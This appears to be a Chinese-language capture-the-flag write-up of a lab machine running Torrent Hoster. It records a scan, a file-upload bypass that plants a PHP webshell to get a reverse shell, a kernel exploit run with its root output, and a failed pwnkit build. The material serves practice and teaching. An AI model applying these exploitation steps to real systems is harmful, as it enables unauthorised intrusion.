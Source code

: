 ## nmap

```Bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.12 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```



## HTTP

目录扫描

```Bash
/index.html           (Status: 200) [Size: 177]
/index                (Status: 200) [Size: 177]
/test                 (Status: 200) [Size: 47034]
/test.php             (Status: 200) [Size: 47046]
/torrent              (Status: 301) [Size: 310] [--> http://10.10.10.6/torrent/]
/rename               (Status: 301) [Size: 309] [--> http://10.10.10.6/rename/]

```

test页面展示phpinfo()

torrent目录扫描

```Bash
/login.php            (Status: 200) [Size: 8367]
/login                (Status: 200) [Size: 8371]
/templates            (Status: 301) [Size: 320] [--> http://10.10.10.6/torrent/templates/]
/index                (Status: 200) [Size: 11356]
/index.php            (Status: 200) [Size: 11356]
/images               (Status: 301) [Size: 317] [--> http://10.10.10.6/torrent/images/]
/download             (Status: 200) [Size: 0]
/download.php         (Status: 200) [Size: 0]
/rss                  (Status: 200) [Size: 964]
/rss.php              (Status: 200) [Size: 964]
/users                (Status: 301) [Size: 316] [--> http://10.10.10.6/torrent/users/]
/admin                (Status: 301) [Size: 316] [--> http://10.10.10.6/torrent/admin/]
/health               (Status: 301) [Size: 317] [--> http://10.10.10.6/torrent/health/]
/browse               (Status: 200) [Size: 9278]
/browse.php           (Status: 200) [Size: 9278]
/comment              (Status: 200) [Size: 936]
/upload               (Status: 301) [Size: 317] [--> http://10.10.10.6/torrent/upload/]
/comment.php          (Status: 200) [Size: 936]
/upload.php           (Status: 200) [Size: 8357]
/css                  (Status: 301) [Size: 314] [--> http://10.10.10.6/torrent/css/]
/edit                 (Status: 200) [Size: 0]
/edit.php             (Status: 200) [Size: 0]
/lib                  (Status: 301) [Size: 314] [--> http://10.10.10.6/torrent/lib/]
/database             (Status: 301) [Size: 319] [--> http://10.10.10.6/torrent/database/]
/secure.php           (Status: 200) [Size: 4]
/secure               (Status: 200) [Size: 4]
/readme               (Status: 301) [Size: 317] [--> http://10.10.10.6/torrent/readme/]
/js                   (Status: 301) [Size: 313] [--> http://10.10.10.6/torrent/js/]
/logout               (Status: 200) [Size: 182]
/logout.php           (Status: 200) [Size: 182]
/config               (Status: 200) [Size: 0]
/preview              (Status: 200) [Size: 28104]
/config.php           (Status: 200) [Size: 0]
/thumbnail            (Status: 200) [Size: 1789]
/thumbnail.php        (Status: 200) [Size: 1789]
/torrents             (Status: 301) [Size: 319] [--> http://10.10.10.6/torrent/torrents/]
/torrents.php         (Status: 200) [Size: 6477]
/validator            (Status: 200) [Size: 0]
/validator.php        (Status: 200) [Size: 0]
/hide                 (Status: 200) [Size: 3765]

```

大部分页面会重定向到login页面, 组件为 torrent hoster

![](https://secure2.wostatic.cn/static/avHXyEQ2QjHFSCmmWYkkmb/image.png?auth_key=1677500631-3hJbDMQFzNp1ghtQbjaG6W-0-192d9f361d8fd6672e18d7c9125d8094)



在/database 目录中得到一些数据库信息

![](https://secure2.wostatic.cn/static/g2t6DHsHLXWcTNNLx6faWY/image.png?auth_key=1677500631-q73q98KKoAMjpKxS6DMnBq-0-dc0abbb9771d91de525243ca1e1830ef)

有一个新建用户的，可以破解hash得到 Admin/admin12

![](https://secure2.wostatic.cn/static/91PkEdqvuECV5y2FtKHe1e/image.png?auth_key=1677500631-uZ3pVCL9sLyXteMqk3nCAb-0-fc50848777063b4cf6abe548d0f96593)

![](https://secure2.wostatic.cn/static/eXzm2fMGapfqXMn8hJ1xjC/image.png?auth_key=1677500631-wQg3i9DpSpNRrArihon7KV-0-6d21ebac8266dc7acb607c5f50970547)

实际在readme里面也有用户信息，但是这个用户无法进入login页面

![](https://secure2.wostatic.cn/static/2V5K37gBzjmfcW7zZBDfkR/image.png?auth_key=1677500631-f9mbFcRaRxn2M7YKB2ftpW-0-594581e3c7fc84329adbee6f2fb339f6)



rename目录

可以重命名文件，还不确定要怎么使用

![](https://secure2.wostatic.cn/static/k98pEr4FVkHaY8ZJviwyTw/image.png?auth_key=1677500631-cPzkdNbKfmG2w1fgT6vGXV-0-e66b37878ba6285f319477743c00a99a)



看了下题解，上面的torrent hoster的账号是可以自己注册的，里面虽然要求了邮件地址，但是没有要求真实验真，直接注册后可以进入控制面板



只有一个torrent Hoster的文件上传漏洞

上传一个torrent文件

![](https://secure2.wostatic.cn/static/wssAenSRDREWrHNXhsLYr5/image.png?auth_key=1677500631-uWzCaYvxpqD3d1HjVMWvrk-0-17459e3bc50cf54dc8d248584fff26b1)



上传成功后，在edit界面，可以上传一个图片，上传一个php木马，后缀为jpg绕过前端

![](https://secure2.wostatic.cn/static/tUMSvP6CcX4h4vrzbaBS3J/image.png?auth_key=1677500631-9iQtnKQydbaWn7cAzvZpKc-0-d598d6ba40c8bad92089bf5ca4d6c6ac)

burp抓包，修改后缀，上传成功

![](https://secure2.wostatic.cn/static/3c5TssBGaAYf52n8DojZah/image.png?auth_key=1677500631-2r44iXnuUSUMRxVPRX89RD-0-c3a3d76b58ebda87b13545fb69033bae)

访问后，拿到反弹shell和user.txt

![](https://secure2.wostatic.cn/static/48RjP1tgmTKn8ZG5kooFdo/image.png?auth_key=1677500631-qXzycUn4JM84Ywhk5k6Lng-0-8dec638ac295526729842f95acd4d7cf)



## privilege escalation

这个题提权很单一，基本就是暴力方法

george用户下有个zip目录，看了下都是torrent hoster相关文件，没有发现别的特殊文件，考虑系统老旧，直接尝试内核提权

### 内核提权

![](https://secure2.wostatic.cn/static/e8kJ7hGGMzbGRvPfYtTvJN/image.png?auth_key=1677500631-tQGGCFtZLigyEPsvztqgYM-0-d8c616120ab511ed68b242f59849e7fb)

没有找到合适的ubuntu版本的poc

没有匹配的内核版本

这里对内核提权的poc版本限制没有组件那么死板，比如这里用15285.c也是可以成功的

```Bash
$ ./15285
[*] Linux kernel >= 2.6.30 RDS socket exploit
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved security_ops to 0xc089b908
 [+] Resolved default_security_ops to 0xc075e2a0
 [+] Resolved cap_ptrace_traceme to 0xc02caf30
 [+] Resolved commit_creds to 0xc01645d0
 [+] Resolved prepare_kernel_cred to 0xc01647d0
[*] Overwriting security ops...
[*] Overwriting function pointer...
[*] Triggering payload...
[*] Restoring function pointer...
[*] Got root!
#
#
# id
uid=0(root) gid=0(root)

```



### pkexec 

没有生效

```Bash
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /bin/true GCONV_PATH=./pwnkit.so:.
$ ls
GCONV_PATH=.  README.md        cve-2021-4034.sh  pwnkit.c
LICENSE       cve-2021-4034    dry-run           pwnkit.so
Makefile      cve-2021-4034.c  gconv-modules
$ ./cve-2021-4034
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```



### LinEnum.sh

没有发现特别的，需要确认是否有通过组件提权的解法
